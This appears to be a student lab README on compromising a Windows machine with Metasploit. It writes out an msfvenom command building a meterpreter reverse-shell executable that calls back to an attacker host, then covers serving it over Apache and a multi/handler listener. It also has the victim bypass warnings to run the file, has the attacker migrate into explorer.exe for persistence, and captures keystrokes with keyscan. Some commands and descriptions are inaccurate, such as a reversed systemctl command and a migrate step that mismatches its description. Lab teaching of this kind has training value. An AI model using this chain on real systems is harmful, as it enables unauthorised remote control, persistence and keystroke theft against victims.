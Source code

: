 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:

https://github.com/Senthil-Kumar-710/Compromising-windows-using-Metasploit/blob/main/o1.png


Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT

https://github.com/Senthil-Kumar-710/Compromising-windows-using-Metasploit/blob/main/o2.jpeg



copy the fun.exe into the apache /var/www/html folder

https://github.com/Senthil-Kumar-710/Compromising-windows-using-Metasploit/blob/main/o3.jpeg

Start apache server
sudo systemctl apache2 start

https://github.com/Senthil-Kumar-710/Compromising-windows-using-Metasploit/blob/main/o4.jpeg


Check the status of apache2
https://github.com/Senthil-Kumar-710/Compromising-windows-using-Metasploit/blob/main/o5.jpeg


Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
https://github.com/Senthil-Kumar-710/Compromising-windows-using-Metasploit/blob/main/o6.jpeg



On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 

https://github.com/Senthil-Kumar-710/Compromising-windows-using-Metasploit/blob/main/o7.png

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
https://github.com/Senthil-Kumar-710/Compromising-windows-using-Metasploit/blob/main/o8.jpeg


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

https://github.com/Senthil-Kumar-710/Compromising-windows-using-Metasploit/blob/main/o9.jpeg


Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

https://github.com/Senthil-Kumar-710/Compromising-windows-using-Metasploit/blob/main/o10.jpeg


keyscan_dump	Shows the keystrokes captured so far

https://github.com/Senthil-Kumar-710/Compromising-windows-using-Metasploit/blob/main/o11.jpeg


## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
